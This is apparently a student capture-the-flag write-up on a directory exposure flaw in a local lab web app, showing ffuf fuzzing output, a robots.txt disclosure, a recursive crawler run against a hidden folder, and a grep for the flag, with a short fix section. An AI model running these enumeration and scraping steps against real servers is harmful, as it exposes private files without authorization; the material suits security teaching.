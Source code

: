 # File and Directory Exposure via accessible ```.hidden/``` directory

## 📖 Vulnerability Explanation
File and directory exposure is a misconfiguration vulnerability that allows an unauthorized user access to sensitive resources.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing:
```
ffuf -u 'http://localhost:9090/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9090/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

- Reading the ```robots.txt``` file reveals a directory called ```.hidden/```:

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

---

The folder contains one ```README``` file and a tree of directories and subdirectories containing more ```README``` files. We coded a python script to crawl all the files in the directory ```.hidden/``` and its subdirectories.

---

We coded a script to download all the files recursively present in a web server configured for directory listing.

In order to run it, we must create a python virtual environment and install the required packages using the ```requirements.txt``` file.
```
python3 -m venv my-python-env
```
```
./my-python-env/bin/pip3 install -r requirements.txt
```
```
./my-python-env/bin/python3 crawl.py 'http://localhost:9090/.hidden/' ./dump
```

---

- Look for the flag using the command find:

```
find ./dump -type f -exec grep flag {} \; -exec echo -e '\n [+] Flag found in file:' {} '\n' \;
```

## 🔧 Fix
To prevent the unwanted exposure of resources, we must implement a solid server configuration. Additionally, performing testing and security assessments regularly is recommended to ensure there are no misconfurations.

## ☝️🤓 Advanced explanation
The script we coded is a recursive web crawler that downloads all files from a given base URL where directory listing is enabled. It recursively goes over routes and saves them, to then download all the files, showing the progress status. 

Usage:
```
python3 crawl.py <url> <directory>
```
- **url** → Base URL to crawl

- **directory** → Local folder to save files (created if missing)

Example:
```
python3 crawl.py "http://localhost:9090/.hidden/" ./dump
```